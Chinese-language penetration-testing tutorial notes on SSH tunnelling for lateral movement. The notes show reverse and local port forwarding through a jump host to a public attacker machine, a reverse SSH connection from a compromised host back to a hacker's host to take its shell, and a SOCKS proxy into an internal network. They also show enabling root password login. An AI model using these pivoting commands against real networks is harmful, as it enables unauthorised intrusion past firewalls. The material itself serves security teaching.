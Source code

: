 SSH隧道是一种通过安全外壳协议（SSH）在两个网络之间创建安全连接的技术。它允许用户通过一个安全的通道在两个主机之间传输数据，可以用于加密和保护数据，以及绕过网络限制和防火墙。
适用于Linux，一般都开启，linux防火墙一般都让ssh通过，适用于手工通信但无法上线。
```
开启ssh协议登录：
vi /etc/ssh/sshd_config
PermitRootLogin yes
PasswordAuthentication yes
/etc/init.d/ssh start
/etc/init.d/ssh restart
```
![image-20240411103959960](http://cdn.33129999.xyz/mk_img/image-20240411103959960.png)


192.168.1.166跳板机，192.168.11.x:8080目标机的web服务。
```
跳板机：入站封，出站没封，用反弹端口
192.168.1.166跳板机上执行
ssh -CfNg -R 1234:192.168.11.x:8080 root@47.94.236.117
将目标机的8080端口服务，转发到公网机47.94.236.117:1234
输入公网机ssh的root密码 即公网机自动监听1234
此时公网攻击机本地的1234端口 访问就是 目标机的8080端口


跳板机：出站封，入站不封，用本地端口转发
192.168.1.166跳板机上执行
ssh -CfNg -L 1122:192.168.11.x:8080 root@192.168.1.166
将跳板机的1122端口监听目标机的8080端口
输入跳板机ssh的root密码 即跳板机自动监听1122端口
公网攻击机 直接访问 跳板机的1122端口 即是 目标机的8080端口
```



^
^
## **场景**
已知黑客主机C的IP：192.168.0.115
公网主机A unbantu：192.168.0.144 ，其内网IP：10.10.10.129，有一个web服务192.168.0.144/test.php
内网主机B：10.10.10.128 ，有一个web服务/test.php
已知已经获取了A的shell，现在要渗透获取B的shell。
^
## **出站被封**
**ssh隧道正向连接**：端口转发，A主机端口映射B主机端口
A主机执行命令：ssh -CNfL 0.0.0.0:7777:10.10.10.129:80 A主机用户名@127.0.0.1
输入A主机ssh用户名密码。
此时通过ssh监听本地端口7777，转发到内网主机80端口成功。
C主机访问192.168.0.144:7777即可访问内网主机web。 

^
## **入站被封**
**ssh隧道反向连接**：A主机反弹shell给C主机
A主机执行命令：ssh -qTfnN -R 2222:127.0.0.1:22 C主机用户名@192.168.0.115
输入C主机ssh用户名密码。
C主机再执行：ssh -p 2222 A主机用户名@127.0.0.1
输入A主机ssh用户名密码。
此时C主机的shell变成了A主机的。
访问curl 10.10.10.128即可访问内网主机web。
^

## **socks代理**
**ssh隧道socks代理**:
>SOCKS 是一种网络协议，用于在客户端和服务器之间进行通信。SOCKS 协议允许客户端在通过代理服务器转发数据时保持私密性。SOCKS 代理在客户端和目标服务器之间建立一个通道，并在通道两端之间传递数据。SOCKS 协议通常用于代理客户端的网络流量，以绕过网络限制、保护隐私或访问受限制的资源。


A主机执行命令：ssh -qTfnN -D 10086 C主机用户名@192.168.0.115
输入C主机ssh用户名密码。
此时C主机即可使用代理，192.168.0.144的10086。
如浏览器中设置代理，再访问10.10.10.128即可访问内网主机web。